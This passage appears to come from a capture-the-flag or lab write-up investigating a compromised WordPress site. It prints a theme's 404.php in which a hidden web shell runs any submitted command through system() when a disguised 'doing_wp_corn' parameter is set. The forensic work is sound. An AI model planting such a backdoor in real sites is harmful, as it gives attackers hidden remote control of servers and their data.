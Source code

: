Let's find it using the command:-
```bash
sudo find /var/www/html/ -type f -name "404.php"
```
Here we go,
![Absolute_Path](assets/img/tryhackme/Honeynetcollapse25/InitialAccessPot/absolute_path.png)
Let's view it using:-
```bash
cat /var/www/html/wordpress/wp-content/themes/blocksy/404.php
```

Well, we have our confirmation:-
```
<?php
/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
 *
 * @package Blocksy
 */

get_header();

if (
        function_exists('blc_get_content_block_that_matches')
        &&
        blc_get_content_block_that_matches([
                'template_type' => '404',
                'match_conditions' => false
        ])
) {
        echo blc_render_content_block(
                blc_get_content_block_that_matches([
                        'template_type' => '404',
                        'match_conditions' => false
                ])
        );
} else {
        if (
                ! function_exists('elementor_theme_do_location')
                ||
                ! elementor_theme_do_location('single')
        ) {
                get_template_part('template-parts/404');
        }
}

if (isset($_GET['doing_wp_corn']) && $_GET['doing_wp_corn'] === "t") {
    echo '<form method="POST" style="width: 500px; max-width: fit-content; margin-left: auto; margin-right: auto;">
            <input type="text" name="cmd" style="width: 300px;">
            <input type="submit" value="Run">
          </form>';

    if (isset($_POST['cmd'])) {
        echo '<pre style="width: 500px; margin-left: auto; margin-right: auto; white-space:pre-line;">';
        system($_POST['cmd']);
        echo "</pre>";
    }
```